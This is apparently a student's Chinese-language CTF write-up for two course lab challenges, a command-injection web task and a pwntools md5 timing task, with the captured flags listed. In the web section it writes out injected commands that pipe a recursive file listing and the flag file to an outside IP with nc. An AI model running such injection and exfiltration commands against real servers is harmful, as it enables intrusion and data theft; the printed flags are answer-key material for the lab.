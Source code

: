 # tool Writeup

- 學號：`109550206`

## web-pratice

- Flag：`flag{w3b-pr4CT1c3_s0_345y}`

### 解題流程與思路
觀察其 Server 可以看到 `os.system(body)` 因此只須於 HTTP Request 的內容嵌入 shell command 設法拿到 flag 即可。

**解題過程：**
1. 撰寫一個 TCP Client 發送一個 HTTP Request 於 body 中包含 `ls -lR | nc 140.113.235.151 10001` 即可得到該機器所有檔案內容。
2. 透過 less 找一下發現其很單純放在 /home/web/flag 下。
3. 將 body 換成 `cat /home/web/flag | nc 140.113.235.151 10001` 即可得到 FLAG。
![Alt text](image/image.png)

**取得 flag 的畫面：**
![Alt text](image/image-1.png)

## pwntools-practice

- Flag：`flag{pPppPpPPwwWWwVVvvwN700ls}`

### 解題流程與思路
可以看到連上 Server 要先解 md5。解法也很單純慢慢找所有可能性即可，接著又看到第 3 個遊戲只要 md5 解得夠快就可以拿到 FLAG。
**解題過程：**
1. 由於 md5 的所有可能性不多，因此先建表算出所有可能性的 md5 值。
2. 收到解 md5 需求就查表，可以超快解完，即得到 FLAG。

**取得 flag 的畫面：**
![Alt text](image/image-2.png)
